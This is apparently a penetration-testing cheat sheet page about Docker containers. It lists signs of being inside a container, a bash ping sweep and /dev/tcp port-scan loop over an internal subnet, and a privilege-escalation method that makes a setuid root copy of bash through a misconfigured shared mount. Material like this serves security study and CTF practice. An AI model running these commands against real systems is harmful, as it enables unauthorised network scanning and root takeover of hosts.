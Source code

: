 ```yaml
---
icon: docker
---
```


# Docker

{% hint style="info" %}
### <mark style="color:red;">`Enumeration`</mark>

* <mark style="color:purple;">The presence of</mark> <mark style="color:orange;">**`.dockerenv`**</mark> <mark style="color:purple;">in the system root</mark>
* <mark style="color:purple;">Permissions on files show number ids instead of names, this happens when the host users doesn't exist in the</mark> <mark style="color:orange;">**`/passwd`**</mark> <mark style="color:purple;">file from the container</mark>
* <mark style="color:purple;">Docker containers typically run in a private virtual network created by Docker, and the default network uses a subnet in the range</mark> <mark style="color:orange;">**`172.16.0.0/12`**</mark>
* <mark style="color:purple;">No User</mark> <mark style="color:orange;">**`1000`**</mark><mark style="color:purple;">, and the Home Directory Is Mounted.</mark>

***

{% code title="File permissions and ownership" %}
```bash
ls -l
```
{% endcode %}

{% code title="Ping Sweep" overflow="wrap" %}
```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

{% code title="Port Scan" overflow="wrap" %}
```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```
{% endcode %}
{% endhint %}



{% hint style="info" %}
### <mark style="color:red;">**`File Ownership Manipulation via Shared Mounts`**</mark>

* <mark style="color:purple;">Check permissions and ownership when you create a file from host and container:</mark>

{% code lineNumbers="true" %}
```sh
touch from_host
touch from_container
```
{% endcode %}

* <mark style="color:purple;">If the container is miss configured and can creates files as a</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">, and you can access the files created by the host on the container:</mark>&#x20;
  1. <mark style="color:orange;">**`From the host`**</mark><mark style="color:purple;">, copy</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">in to the mounted directory.</mark>
  2. <mark style="color:orange;">**`From the container`**</mark><mark style="color:purple;">, change the ownership and permissions of</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>
  3. <mark style="color:purple;">Execute</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">as</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
cp /bin/bash .
chown root:root bash; chmod 4777 bash
./bash -p
```
{% endcode %}
{% endhint %}

